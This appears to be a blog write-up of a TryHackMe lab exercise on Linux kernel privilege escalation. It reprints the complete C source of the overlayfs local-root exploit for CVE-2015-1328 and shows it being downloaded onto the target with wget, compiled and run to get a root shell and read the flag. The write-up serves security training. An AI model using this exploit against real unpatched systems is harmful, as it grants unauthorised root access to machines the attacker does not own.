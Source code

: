 ```yaml
---
title: "CVE-2015–1328: Linux Privilege Escalation"
excerpt: A short exercise to see how one can exploit outdated kernel versions.
date: 2025-09-19
---
```


This is a cool exercise that I encountered on TryHackMe in the *Linux Privilege Escalation* room. Roughly speaking, older kernel versions tend to be more susceptible to privilege exploits. The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges, and hence a successful exploit can potentially lead to root privileges. 

In this room, the task is to find a suitable exploit to gain root privileges and read the contents of `flag1.txt` on the victim's machine. 

The attacker's IP is `10.10.199.227` and the victim's is `10.10.167.160`. Moreover, we are given login credentials:

```bash
username: karen
password: Password1
```

First, we ssh onto the target machine via `ssh karen@10.10.167.160`. We find that `flag1.txt` is located in `/home/matt`, but that Karen does not have the correct privileges to view the content.

We can obtain the kernel version and OS of this machine by running

```bash
$ uname -a
Linux wade7363 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04 LTS
Release:	14.04
Codename:	trusty
```

This tells us that the kernel version is 3.13.0 and the OS is Ubuntu 14.04. Some research online will reveal that we can use [CVE-2015–1328](https://www.exploit-db.com/exploits/37292?source=post_page-----9bc382abe015---------------------------------------) to gain root access eventually. This exploit is better known as **overlayfs** and it is entirely given by an executable written in c. The snippet looks as follows:

```c
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)

greets to beist & kaliman
2015-05-24
%rebel%
*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
    int status, fd, lib;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;

    fprintf(stderr,"spawning threads\n");

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    fprintf(stderr,"child threads done\n");

    fd = open("/etc/ld.so.preload",O_WRONLY);

    if(fd == -1) {
        fprintf(stderr,"exploit failed\n");
        exit(-1);
    }

    fprintf(stderr,"/etc/ld.so.preload created\n");
    fprintf(stderr,"creating shared library\n");
    lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);
    write(lib,LIB,strlen(LIB));
    close(lib);
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
    if(lib != 0) {
        fprintf(stderr,"couldn't create dynamic library\n");
        exit(-1);
    }
    write(fd,"/tmp/ofs-lib.so\n",16);
    close(fd);
    system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");
    execl("/bin/su","su",NULL);
}
```

The problem is that we cannot simply create a text file containing this code on the target as `karen`, since this account does not have the required privileges for this either! You can try `vim exploit.c` or `touch exploit.c`, but neither work. Instead, we save the exploit on the attacker machine and start a web server:

```bash
root@ip-10-10-199-227:/# vim exploit.c
root@ip-10-10-199-227:/# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Next, we switch to the `/tmp` directory on the target (since we have privileges to run executables here) and download the exploit from the local web server:

```bash
$ cd /tmp
$ wget 10.10.199.227:8080/exploit.c                    
--2025-09-19 03:06:50--  http://10.10.199.227:8080/exploit.c
Connecting to 10.10.199.227:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4969 (4.9K) [text/plain]
Saving to: \u2018exploit.c\u2019

100%[====================================================================================================================>] 4,969       --.-K/s   in 0s      

2025-09-19 03:06:50 (957 MB/s) - \u2018exploit.c\u2019 saved [4969/4969]
```

Now the exploit is located in `/tmp` on the target. We first compile the code, and can then run it:

```bash
$ gcc exploit.c -o exploit
$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
#
```

Now we have successfully obtained root privileges and can read the flag to finish the exercise!

```bash
# whoami
root
# cat /home/matt/flag1.txt
THM-28392872729920
```







